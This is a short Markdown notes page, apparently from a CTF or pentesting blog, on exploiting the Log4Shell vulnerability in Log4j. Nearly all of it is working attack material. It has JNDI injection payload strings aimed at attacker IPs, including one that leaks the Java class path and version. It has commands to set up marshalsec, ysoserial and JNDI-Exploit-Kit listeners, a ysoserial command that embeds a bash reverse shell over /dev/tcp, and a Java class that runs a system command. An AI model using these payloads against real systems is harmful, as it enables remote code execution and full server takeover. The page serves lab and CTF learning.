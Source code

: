 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec
excerpt_separator: <!--more-->
ShowToc: true
#image: Log4Shell.png
platform: notes.png
---
```


The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack.


<!--more-->

### Setting up LDAP server using Marshalsec
[Marshalsec Github](https://github.com/mbechler/marshalsec)
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://10.10.10.10:8888/#log4jrce"`

### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

### Creating serialized payload using ysoserial
[ysoserial](https://github.com/frohoff/ysoserial) [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

### Set up JNDI Listener using JNDI-Exploit-Kit
[JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
- `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
- after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something._**

### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

